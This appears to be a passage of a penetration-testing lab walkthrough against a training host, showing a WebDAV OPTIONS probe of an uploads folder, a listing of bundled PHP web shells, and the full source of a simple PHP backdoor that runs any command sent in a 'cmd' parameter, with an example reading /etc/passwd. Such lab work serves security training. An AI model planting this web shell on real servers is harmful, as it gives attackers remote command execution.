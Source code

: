 `curl -v -X OPTIONS http://demo.ine.local/uploads/`:
```http
* Host demo.ine.local:80 was resolved.
* IPv6: (none)
* IPv4: 192.48.93.3
*   Trying 192.48.93.3:80...
* Connected to demo.ine.local (192.48.93.3) port 80
> OPTIONS /uploads/ HTTP/1.1
> Host: demo.ine.local
> User-Agent: curl/8.8.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Wed, 27 Nov 2024 12:18:53 GMT
< Server: Apache
< DAV: 1,2
< DAV: <http://apache.org/dav/propset/fs/1>
< MS-Author-Via: DAV
< Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK,UNLOCK📌
< Content-Length: 0
< Content-Type: httpd/unix-directory
< 
* Connection #0 to host demo.ine.local left intact
```

`locate -i 'webshells' | grep -E '\.php$'`:
```
/usr/share/webshells/php/php-backdoor.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/qsd-php-backdoor.php
/usr/share/webshells/php/simple-backdoor.php
/usr/share/webshells/php/findsocket/php-findsock-shell.php
```

`cp /usr/share/webshells/php/simple-backdoor.php ./shell.php`

`cat ./shell.php`:
```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```
